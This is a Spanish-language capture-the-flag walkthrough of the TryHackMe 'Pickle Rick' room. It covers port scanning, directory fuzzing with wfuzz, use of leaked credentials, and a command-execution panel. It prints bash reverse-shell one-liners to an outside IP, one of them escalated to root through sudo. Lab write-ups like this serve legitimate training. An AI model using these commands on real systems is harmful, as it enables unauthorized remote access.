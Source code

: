 ```yaml
---
title : pickle Rick
published : True
---
```


---
<p>Maquina a vulnerar Pickle Rick</p>
> Url : <a href="https://tryhackme.com/room/picklerick"> Pickle Rick </a>
<p></p>
---

<p>Empezaremos viendo a que sistema operativo nos enfrentamos.</p>
<img src="/imgs/pickleRick/pickleRick1.jpg"/>
<p> Vemos que el ttl es de 63 lo cual hace referencia a una maquina linux, ahora veremos que puertos estan abiertos.</p>
<img src="/imgs/pickleRick/pickleRick2.jpg"/>
<p>Puerto 22/ssh y 80/http , ya intente conectarme por ssh pero me arroja permiso denyed, mirando el codigo del html de el puerto 80, me topo que en el codigo hay un usario : <font color="yellow">R1ckRul3s</font></p>
<img src="/imgs/pickleRick/pickleRick3.jpg"/>
<p>Ahora lo que hare sera enumerar directorios activos en la pagina web, con la herramiento <font color="gold">wfuzz</font></p>
> wfuzz -t 200 --hc=404 -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.181.144/FUZZ
<p></p>
<img src="/imgs/pickleRick/pickleRick4.jpg"/>
<p>Vemos que directamente hay un robots.txt el cual al verlo en la pagnia web parece un tipo de contra.</p>
<img src="/imgs/pickleRick/pickleRick5.jpg"/>
<p>Posterior mente me doy cuenta que existe un login.php</p>
<img src="/imgs/pickleRick/pickleRick6.jpg"/>
<p>El cual con el usuario anterior encontrado y la contra me lleva a un panel con ejecucion remota de comandos</p>
>/bin/bash -c  "bash -i >& /dev/tcp/10.18.27.215/444 0>&1"
<p></p>
<img src="/imgs/pickleRick/pickleRick7.jpg"/>
<p>Lo cual me aprovecho de la ejecucion remota de coamando para hacerme una web shell </p>
<img src="/imgs/pickleRick/pickleRick8.jpg"/>
<p>Posteriormente me doy cuenta que el usuario www-data puede ejecutar cualquier comando</p>
> sudo -l
<p></p>
<img src="/imgs/pickleRick/pickleRick9.jpg"/>
<p>Entonces me hago una reverse sell con el sudo</p>
> sudo /bin/bash -c "bash -i >& /dev/tcp/10.18.27.215/445 0>&1"
<p></p>
<img src="/imgs/pickleRick/pickleRick10.jpg"/>
<p>Ok maquina <font color="red">Vulnerada</font></p>
